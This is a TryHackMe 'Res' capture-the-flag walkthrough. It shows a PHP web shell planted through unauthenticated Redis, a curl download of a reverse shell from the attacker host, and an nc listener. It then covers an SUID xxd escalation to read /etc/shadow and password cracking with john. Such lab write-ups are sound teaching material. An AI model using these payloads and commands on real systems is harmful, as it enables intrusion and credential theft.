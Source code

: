 [Home](../../index.md)

# TryHackMe: Res

https://tryhackme.com/room/res


---
## First 4 Questions

These can all be answered with a service port scan.

```
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ rustscan -a 10.10.244.194 -r 1-65535 -- -sV

...

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
6379/tcp open  redis   syn-ack Redis key-value store 6.0.7
```


---
## Compromise the machine and locate user.txt

My first thought was to look for an existing exploit for redis, because the room is obviously pointing out the application and version.  I thought I found an easy Metasploit module, but it had a bug that caused it not to run properly.

Found this:  https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Connected with NetCat as detailed there and was able to run the info command.

```
┌──(kali㉿kali)-[~]
└─$ nc -vn 10.10.244.194 6379                  
(UNKNOWN) [10.10.244.194] 6379 (redis) open
info
$3684
# Server
redis_version:6.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:5c906d046e45ec07
redis_mode:standalone
os:Linux 4.4.0-189-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:5.4.0
process_id:640
run_id:bf872b66f7e4fa84078eef9320f4adb8558ab8b5
tcp_port:6379
uptime_in_seconds:3404
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:12312706
executable:/home/vianka/redis-stable/src/redis-server
config_file:/home/vianka/redis-stable/redis.conf
io_threads_active:0

(lots of stuff here)

# Keyspace
```

There is no data, it's just an empty database, based on what the article says about the Keyspace section.

The article outlines how to place our own PHP code in the website directory (port 80 from our nmap scan, it's a fresh Apache install with nothing else)

```
config set dir /var/www/html/
+OK
config set dbfilename redis.php
+OK
set test "<?php system($_GET['cmd']);?>"
+OK
save
+OK
```

We can confirm command execution by browsing to the php file and adding a command as the parameter (you should see www-data in the output).

`http://10.10.244.194/redis.php?cmd=whoami`

Now we can ready a reverse shell, serve from the attacking machine and download.

Used the shell from https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Make sure to change your attacker IP in the shell.

```
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Browse or Curl:

`http://10.10.244.194/redis.php?cmd=curl%20-o%20shell.php%20http://10.13.18.7:8000/php-reverse-shell.php`

Verify the file was pulled:

```
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.244.194 - - [16/Dec/2021 20:17:29] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

Now set up a listener

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

Browse or Curl:

`http://10.10.244.194/shell.php`

Catch it and get the flag:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.244.194] 40982
Linux ubuntu 4.4.0-189-generic #219-Ubuntu SMP Tue Aug 11 12:26:50 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:19:43 up  1:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
vianka
$ cd vianka
$ ls
redis-stable
user.txt
$ cat user.txt
```

---
## What is the local user account password?

Skipping this for now, we can find this after privesc.

---
## Escalate privileges and obtain root.txt

First order is to stabilize the shell

```
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$
```

Grabbed linpeas from https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh

Transferred with python http server, made executable and ran.  It found that xxd has the SUID bit set.

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
╔══════════╣ SUID - Check easy privesc, exploits and write perms                                                                                                                                                                                                                                                            
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                                                                                                                                                 
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping                                                                                                                                                                                                                                                                           
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K Jan 27  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 40K Mar 26  2019 /bin/su
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27K Jan 27  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Mar 26  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 19K Mar 18  2020 /usr/bin/xxd
-rwsr-xr-x 1 root root 39K Mar 26  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 134K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 53K Mar 26  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 74K Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40K Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-r-sr-xr-x 1 root root 14K Sep  1  2020 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Sep  1  2020 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper

```

This allows us to read files with root privileges, so we can read the root flag, /etc/passwd and /etc/shadow to answer the rest of the questions. (found on https://gtfobins.github.io/gtfobins/xxd/)

```
$ LFILE=/etc/shadow
$ xxd "$LFILE" | xxd -r

$ cat /etc/passwd
(this one didn't need root)

$ LFILE=/root/root.txt
$ xxd "$LFILE" | xxd -r

```

Now that we have /etc/shadow and /etc/passwd, we can copy the contents to files on our local machine and use unshadow and john to crack.

```
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ vim shadow.txt
                                                                                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ vim passwd.txt           
                                                                                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/tryhackme/res]
└─$ unshadow passwd.txt shadow.txt > johnable.txt
Created directory: /home/kali/.john

┌──(kali㉿kali)-[~/tryhackme/res]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt johnable.txt                                                                         
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXX       (vianka)     
1g 0:00:00:00 DONE (2021-12-16 20:50) 2.222g/s 2844p/s 2844c/s 2844C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
